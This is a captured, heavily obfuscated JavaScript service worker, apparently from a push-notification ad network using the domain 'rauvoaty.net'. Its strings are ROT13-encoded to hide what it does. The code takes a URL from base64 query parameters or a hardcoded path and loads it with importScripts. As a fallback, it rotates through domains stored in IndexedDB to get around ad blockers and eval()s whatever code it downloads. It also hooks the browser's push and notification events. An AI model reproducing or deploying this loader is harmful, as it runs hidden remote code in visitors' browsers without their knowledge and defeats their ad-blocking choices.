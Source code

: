 Save New file (function(O){!function(e){var t=O.Z();function n(r){if(t[r])return t[r][O.i];var i=t[r]=O.Z(O.B,r,O.w,!O.X,O.i,O.Z());return e[r]O.z,i[O.w]=!O.N,i[O.i]}n[O.y]=e,n[O.g]=t,n[O.K]=function(e,t,r){nO.h||ObjectO.b},n[O.G]=function(e){O.HO!=typeof Symbol&&Symbol[O.hO]&&ObjectO.b,ObjectO.b},n[O.R]=function(e,t){if(O.X&t&&(e=n(e)),O.v&t)return e;if(O.P&t&&O.t==typeof e&&e&&e[O.U])return e;var r=ObjectO.r;if(nO.G,ObjectO.b,O.d&t&&O.oO!=typeof e)for(var i in e)n[O.K](r,i,function(t){return e[t]}O.fO);return r},n[O.H]=function(e){var t=e&&e[O.U]?function(){return e[O.C]}:function(){return e};return nO.K,t},n[O.h]=function(e,t){return Object[O.FO][O.a]O.z},n[O.e]=O.F,n(n[O.m]=O.o)}(O.Z(O.o,function(module,exports,webpack_require){O.f;var _antiadblock=webpack_require(O.O);self[O.c]=O.Z(O.S,7871918,O.V,"rauvoaty.net",O.l,!O.N),self[O.D]=O.F;var DEFAULT_URL=[O.Y,O.j]O.A,STORE_EVENTS=[O.T,O.u,O.M,O.L,O.n,O.E],url;try{if(url=atob(location[O.DO]O.x),!url)throw O.q}catch(e){url=DEFAULT_URL}try{importScripts(url)}catch(ignore){var events=O.Z(),listeners=O.Z(),realAddEventListener=self[O.yO]O.fO;STORE_EVENTSO.ZO,self[O.yO]=function(e,t){if(-O.X===STORE_EVENTSO.qO)return realAddEventListener(e,t);listeners[e]||(listeners[e]=[]),listeners[e]O.M,events[e]&&events[e]O.ZO},(O.N,_antiadblock[O.I])(url,O.Z())[O.gO](function(e){return eO.UO})[O.gO](function(code){return eval(code)})}},O.O,function(e,t,n){O.f;ObjectO.b,t[O.Q]=function(e){return new Promise(function(t,n){r(O.BO)[O.gO](function(r){var i=rO.tOO.xO[O.WO](O.Z(O.V,e,O.dO,new Date()O.CO));iO.yO,iO.yO})})},t[O.I]=async function(e,t){var n=await new Promise(function(e,t){r(O.BO)[O.gO](function(n){var r=nO.tOO.xOO.PO;rO.yO,r[O.yO](O.EO,function(){return e(r[O.XO][O.oF](function(e){return e[O.V]}))})})}),o=!O.N,a=!O.X,s=void O.N;try{for(var c,u=nSymbol[O.QO];!(o=(c=uO.IO)[O.uO]);o=!O.N){var d=c[O.p];try{return await fetch(O.Y+d+O.s+i(),O.Z(O.YO,t[O.YO]||O.RO,O.jO,O.pO,O.sO,t[O.sO],O.vO,O.Z(O.kO,btoa(e))))}catch(e){}}}catch(e){a=!O.N,s=e}finally{try{!o&&u[O.JO]&&uO.JO}finally{if(a)throw s}}throw new Error(O.eO)},t[O.J]=async function(e){try{var t=await fetch(eO.qO>-O.X?e:O.Y+e);return!O.X===(await tO.bO)[O.TO]}catch(e){return!O.X}};function r(e){return new Promise(function(t,n){var r=indexedDBO.MO;rO.yO,rO.yO,r[O.yO](O.EO,function(){return t(r[O.XO])})})}function i(){var e=arguments[O.iO]>O.N&&void O.N!==arguments[O.N]?arguments[O.N]:O.N,t=e<O.W&&MathO.mO>O.k,n=MathO.mOO.zOO.x;return n+(t?O.s+i(e+O.X):O.F)}}))}([['o',111],['O',17],['F',''],['f','hfr fgevpg'],['Z',function(){const obj={};const args=[].slice.call(arguments);for(let i=0;i<args.length-1;i+=2){obj[args[i]]=args[i+1]}return obj}],['y','z'],['g','p'],['K','q'],['G','e'],['R','g'],['H','a'],['h','b'],['e','c'],['i','rkcbegf'],['m','f'],['z','pnyy'],['w','y'],['N',0],['c','bcgvbaf'],['D','ynel'],['A','wbva'],['T','vafgnyy'],['u','npgvingr'],['M','chfu'],['L','abgvsvpngvbapyvpx'],['n','abgvsvpngvbapybfr'],['E','chfufhofpevcgvbapunatr'],['q',null],['b','qrsvarCebcregl'],['U','__rfZbqhyr'],['Q','nqqQbznva'],['I','hygensrgpu'],['J','grfgCvatQbznva'],['B','v'],['S','mbarVq'],['V','qbznva'],['l','erfhofpevorBaVafgnyy'],['X',1],['Y','uggcf://'],['j','/csr/pheerag/freivpr-jbexre.zva.wf?e=fj&i=2'],['p','inyhr'],['s','/'],['v',8],['a','unfBjaCebcregl'],['W',7],['k',.3],['x','fyvpr'],['d',2],['P',4],['t','bowrpg'],['r','perngr'],['C','qrsnhyg'],['oO','fgevat'],['OO','n'],['FO','cebgbglcr'],['fO','ovaq'],['ZO','sbeRnpu'],['yO','nqqRiragYvfgrare'],['gO','gura'],['KO',3],['GO','rahzrenoyr'],['RO','trg'],['HO','haqrsvarq'],['hO','gbFgevatGnt'],['eO','NNO Erdhrfg Snvyrq'],['iO','yratgu'],['mO','enaqbz'],['zO','gbFgevat'],['wO',36],['NO',10],['cO','Zbqhyr'],['DO','frnepu'],['AO',9],['TO','fgnghf'],['uO','qbar'],['MO','bcra'],['LO','hctenqrarrqrq'],['nO','reebe'],['EO','fhpprff'],['qO','vaqrkBs'],['bO','wfba'],['UO','grkg'],['QO','vgrengbe'],['IO','arkg'],['JO','erghea'],['BO','fjnno'],['SO',':'],['VO','perngrBowrpgFgber'],['lO','qbznvaf'],['XO','erfhyg'],['YO','zrgubq'],['jO','perqragvnyf'],['pO','vapyhqr'],['sO','obql'],['vO','urnqref'],['aO','xrlCngu'],['WO','chg'],['kO','gbxra'],['xO','bowrpgFgber'],['dO','perngrqNg'],['PO','trgNyy'],['tO','genafnpgvba'],['rO','ernqjevgr'],['CO','trgGvzr'],['oF','znc']].reduce((o,i)=>(Object.defineProperty(o,i[0],{get:()=>typeof i[1]!=='string'?i[1]:i[1].split('').map(s=>{const c=s.charCodeAt(0);return c>=65&&c<=90?String.fromCharCode((c-65+26-13)%26+65):c>=97&&c<=122?String.fromCharCode((c-97+26-13)%26+97):s}).join('')}),o),{})))/importScripts(...r=sw)/